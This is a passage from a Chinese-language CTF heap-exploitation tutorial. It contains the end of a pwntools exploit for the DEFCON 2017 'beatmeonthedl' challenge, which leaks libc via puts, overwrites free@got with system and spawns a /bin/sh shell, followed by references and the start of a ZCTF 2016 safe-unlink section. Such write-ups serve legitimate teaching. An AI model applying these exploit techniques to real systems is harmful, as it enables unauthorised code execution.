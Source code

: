 ```python

    print 'step 5'
    # set wheel cnt =3, 0x603130 in order to start robot
    write(0x603130, 3)
    # set destructor point to puts@got
    change(1, p64(robots.got['puts']))
    start_robot()
    p.recvuntil('New hands great!! Thx ')
    puts_addr = p.recvuntil('!\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    log.success('libc base: ' + hex(libc_base))
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))

    # make free->system
    write(robots.got['free'], system_addr)
    # make destructor point to /bin/sh addr
    write(0x6030E8, binsh_addr)
    # get shell
    remove(6)
    p.interactive()

    pass


if __name__ == "__main__":
    exp()

```

### 题目

- [DEFCON 2017 Qualifiers beatmeonthedl](https://github.com/Owlz/CTF/raw/master/2017/DEFCON/beatmeonthedl/beatmeonthedl)

### 参考

- malloc@angelboy
- https://gist.github.com/niklasb/074428333b817d2ecb63f7926074427a


## note3

### 介绍

ZCTF 2016的一道题目，考点是safe unlink的利用。

### 题目介绍
